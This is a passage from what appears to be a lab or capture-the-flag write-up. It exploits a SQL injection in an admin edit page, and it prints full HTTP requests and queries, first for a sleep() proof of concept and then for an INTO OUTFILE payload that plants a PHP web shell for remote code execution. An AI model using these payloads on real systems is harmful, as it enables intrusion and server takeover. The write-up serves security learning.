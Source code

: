 
#### SQL Injection Exploitation
With all the information gathered from the previous analysis, it was now time to build an actual query to inject.
Since it was just a Proof of Concept I started by injecting a simple sleep() function to suspend the HTTP response for 10 seconds.

```
GET /admin/edit.php?id=1+UNION+SELECT+1,(SELECT+sleep(10)),3,4+--+- HTTP/1.1
Host: 192.168.56.118
Cookie: PHPSESSID=7kg82uff32fgejeuhvu9c0rvl6
Connection: close
```
*GET request with the SQL sleep() function*

```
SELECT * FROM posts WHERE id=1 UNION SELECT 1,(SELECT SLEEP(10)),3,4 -- -
```
*Database query with the injected sleep() function*

Success! I was now able to fully compromise the database data by injecting malicious SQL queries.

#### SQL Injection to Remote Code Execution
To complete this challenge, I had to inject an SQL query that would allow me to get code execution on the server.

For this purpose I used a well known method that allowed arbitrary file writing by using the SQL `INTO OUTFILE` statement.
The final task was to find a directory where the `www-data` user had write privileges and upload a PHP webshell to the server.

Since this was a white-box assessment, I quickly found the `/var/www/admin/uploads/` directory.

```
SELECT * FROM posts WHERE id=1 UNION SELECT 1,(SELECT '<?php echo system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/admin/uploads/cmd.php'),3,4 -- -
```
*Database query with the PHP webshell code*

```
GET /admin/edit.php?id=UNION+SELECT+1,(SELECT+'<%3fphp+echo+system($_GET["cmd"])%3b+%3f>'+INTO+OUTFILE+'/var/www/admin/uploads/cmd.php'),3,4+--+- HTTP/1.1
Host: 192.168.56.118
Cookie: PHPSESSID=7kg82uff32fgejeuhvu9c0rvl6
Connection: close
```
*GET request with the final SQL Injection payload*

After sending the request, I noticed the `cmd.php` file was created and contained the malicious PHP code, as seen in the picture below.

![](/assets/img/content/fc0ab53002f74b5a84324a49199c34ae.png)
*Result of the previous SQL Injection request*

